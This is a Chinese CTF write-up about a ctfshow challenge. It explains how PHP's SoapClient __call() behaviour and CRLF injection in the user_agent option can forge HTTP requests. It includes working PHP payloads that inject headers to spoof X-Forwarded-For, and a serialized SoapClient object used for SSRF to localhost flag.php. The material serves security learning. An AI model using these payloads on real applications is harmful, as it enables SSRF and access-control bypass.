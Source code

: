 - **调用不存在的方法，会自动调用__call()函数来发送请求**，因此才可以监听到
- 监听到的信息如下:

![img](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669625077997-9b1c1c9a-6749-4017-a649-0c90acdc6010.png)

- 这里可以看到User-Agent是可以注入的

```php
<?php
$ua="ctfshow\r\nx-forwarded-for:127.0.0.1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:13\r\n\r\ntoken=ctfshow";
$client=new SoapClient(null,array('uri'=>"127.0.0.1",'location'=>"http://127.0.0.1/flag.php",'user_agent'=>$ua));
$client->getFlag();  //调用不存在的方法，会自动调用——call()函数来发送请求
?>
```

**知识点：**

- windows中使用\r\n表示换行

- 监听到的信息如下：

![img](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669625239200-ca560448-2dc1-483b-a9b4-cecae61971ae.png)

- 因为Content-length是13，所以到标记2处就已经结束了，后面的包服务器会忽略



#### 例题

![img](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669625318144-fd0a3466-1cba-4280-947a-5b35b533e776.png)

![img](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669625309055-40110109-38fe-4ce2-8bf6-728b0d60a0c0.png)

- 由于这里不存在getFlag()方法，且需要访问flag.php，直接访问flag.php的结果如下：

![img](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669625369217-676b08cb-04dd-4237-97f1-f097d44602a6.png)

- 这就需要用ssrf内网访问

```php
<?php
$ua="ctfshow\r\nx-forwarded-for:127.0.0.1,1\r\nContent-Type:application/x-www-form-urlencoded\r\nContent-Length:13\r\n\r\ntoken=ctfshow";
$client=new SoapClient(null,array('uri'=>"127.0.0.1",'location'=>"http://127.0.0.1",'user_agent'=>$ua));
// $client->getFlag();  //调用不存在的方法，会自动调用__call()函数来发送请求
echo urlencode(serialize($client));
?>
```

- 在反序列化后，会访问127.0.0.1/flag.php，此时因为vip->getFlag()不存在，所以会用__call()函数来发送请求
- 因此在我构造好的$client中就已经满足了flag.php的要求，会将flag写入flag.txt中
- 直接访问flag.txt就可以获得flag

